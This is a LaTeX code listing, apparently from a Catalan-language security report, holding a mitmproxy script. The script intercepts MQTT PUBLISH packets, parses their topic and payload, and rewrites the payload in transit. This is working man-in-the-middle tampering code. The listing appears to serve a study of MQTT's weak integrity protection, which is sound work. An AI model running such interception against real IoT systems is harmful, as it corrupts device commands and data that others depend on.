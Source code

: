 \begin{lstlisting}[language=Python, caption={Script de modificació de missatges en mitmproxy en baix nivell}, label=lst:ScriptMITM2]
from mitmproxy import tcp

def decode_remaining_length(data, offset):
    multiplier = 1
    value = 0
    bytes_used = 0
    while True:
        encoded_byte = data[offset]
        value += (encoded_byte & 127) * multiplier
        offset += 1
        bytes_used += 1
        if (encoded_byte & 128) == 0:
            break
        multiplier *= 128
    return value, bytes_used

def tcp_message(flow: tcp.TCPFlow):
    data = flow.messages[-1].content
    try:
        if data and data[0] & 0xF0 == 0x30:  # 0x30 = PUBLISH
            print("[+] Detected MQTT PUBLISH")

            # Decodificar
            remaining_length, len_len = decode_remaining_length(data, 1)

            fixed_header_len = 1 + len_len
            topic_len = int.from_bytes(data[fixed_header_len:fixed_header_len+2], "big")
            topic_start = fixed_header_len + 2
            topic_end = topic_start + topic_len
            payload_start = topic_end
            payload = data[payload_start:]

            print(f"[+] Topic: {data[topic_start:topic_end].decode()}")
            print(f"[+] Payload original: {payload}")

            # Modificar payload
            new_payload = b"MODIFICADO"

            new_remaining_length = 2 + topic_len + len(new_payload)
            new_remaining_bytes = bytearray()
            x = new_remaining_length
            while True:
                byte = x % 128
                x //= 128
                if x > 0:
                    byte |= 128
                new_remaining_bytes.append(byte)
                if x == 0:
                    break

            # Reconstruir el mensaje MQTT
            fixed_header = bytes([data[0]]) + bytes(new_remaining_bytes)
            topic_part = data[fixed_header_len:payload_start]
            new_msg = fixed_header + topic_part + new_payload

            flow.messages[-1].content = new_msg
            print(f"[+] Payload modificado: {new_payload}")

    except Exception as e:
        print(f"[!] Error modificando MQTT PUBLISH: {e}")
\end{lstlisting}

